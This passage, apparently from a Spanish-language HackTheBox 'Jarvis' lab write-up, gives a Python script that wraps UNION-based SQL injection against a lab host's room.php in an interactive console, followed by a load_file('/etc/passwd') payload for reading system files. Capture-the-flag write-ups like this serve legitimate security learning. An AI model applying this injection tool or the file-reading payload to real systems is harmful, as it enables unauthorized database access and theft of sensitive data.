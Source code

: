 Procedemos a la creación de un script en python para hacer una consola interactiva a la hora de hacer los request para que sea más fácil y cómodo 

{% highlight python %}
{% raw %}

#!/usr/bin/python3 
from bs4 import BeautifulSoup
import requests
import re
import sys

#Variables globales
sqli_url = 'http://10.10.10.143/room.php?cod=0 '

def inyectar(parm, param2 = ""):
    data = ('UNION SELECT 1,%s,3,4,5,6,7 %s') % (param, param2 ) # Preparamos el request
    r = requests.get(sqli_url + data)                   
    soup = BeautifulSoup(r.text, 'html.parser') 

    print (soup.find('a',{'href':'/room.php?cod=1'}).text)      #Limpiamos y imprimimos la data que nos importa

if __name__ == '__main__':
    
    while True:
       param, param2 = input("[!] Payload: ").split(" ", 1)   #dejar 2 espacios al final del query
       if param != "exit":
           inyectar(param,param2)       
       else:
           sys.exit(1)
           
{% endraw %}
{% endhighlight %}

![asd](/assets/htb/jarvis/interact1.png ) 

`` load_file("/etc/passwd") ``